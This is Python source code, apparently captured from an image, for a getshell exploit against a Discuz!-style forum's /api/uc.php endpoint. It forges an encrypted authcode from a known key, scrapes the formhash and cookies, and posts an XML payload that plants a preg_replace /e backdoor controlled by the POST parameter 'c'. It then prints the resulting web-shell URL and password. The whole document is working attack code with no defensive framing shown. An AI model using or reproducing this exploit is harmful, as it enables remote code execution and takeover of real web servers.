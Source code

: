 import sys

import hashlib

import time

import math

import base64

import urllib2

import urllib

import re

import requests

import json

global cookie

global formhash



def microtime(get_as_float = False) :

if get_as_float:

return time.time()

else:

return '%.8f %d' % math.modf(time.time())



def get_authcode(string, key = ''):

ckey_length = 4

key = hashlib.md5(key).hexdigest()

keya = hashlib.md5(key[0:16]).hexdigest()

keyb = hashlib.md5(key[16:32]).hexdigest()

keyc = (hashlib.md5(microtime()).hexdigest())[-ckey_length:]

cryptkey = keya + hashlib.md5(keya+keyc).hexdigest()

key_length = len(cryptkey)

string = '0000000000' + (hashlib.md5(string+keyb)).hexdigest()[0:16]+string

string_length = len(string)

result = ''

box = range(0, 256)

rndkey = dict()

for i in range(0,256):

rndkey[i] = ord(cryptkey[i % key_length])

j=0

for i in range(0,256):

j = (j + box[i] + rndkey[i]) % 256

tmp = box[i]

box[i] = box[j]

box[j] = tmp

a=0

j=0

for i in range(0,string_length):

a = (a + 1) % 256

j = (j + box[a]) % 256

tmp = box[a]

box[a] = box[j]

box[j] = tmp

result += chr(ord(string[i]) ^ (box[(box[a] + box[j]) % 256]))

length=len(result)

return keyc + base64.b64encode(result).replace('=', '')

def get_cookie_formhash(host):

global cookie

global formhash

headers = {'content-type': 'application/json'}

r=requests.get(host,headers=headers)

cookie=r.cookies

hash=re.findall(r'formhash" value="[0-9A-z]{1,10}"',r.text)

_formhash=re.findall(r'"[0-9A-z]{1,10}"',hash[0])

formhash=_formhash[0].replace('"','')

def getshell(host,key):

global cookie

global formhash

header = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64)'}

tm=time.time()+10*3600

agent=hashlib.md5("Mozilla/5.0 (Windows NT 6.1; WOW64)")

string="agent=%s&time=%s&action=updatebadwords" % (agent,tm)

code=urllib.quote(get_authcode(string,key))

get_cookie_formhash(host)

url="%s/api/uc.php?code=%s&formhash=%s" % (host,code,formhash)

payload='''<?xml version="1.0" encoding="ISO-8859-1"?>

<root>

<item id="0">

<item id="findpattern">/admin/e</item>

<item id="replacement">@preg_replace(chr(47).chr(47).chr(101),$_POST[c],chr(098));</item>

</item>

</root>'''

r=requests.post(url,data=payload,cookies=cookie,headers=header)

print url

print r.text

if re.findall('^1',r.text):

print 'success shell is %s/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkusername&username=admin    password is c' % (host)



if __name__ == '__main__':

commands=sys.argv[1:2]

keys=sys.argv[2:]

args="".join(commands)

argss="".join(keys)

print args,argss

if len(args) < 5:

sys.exit()

else:

getshell(args,argss)
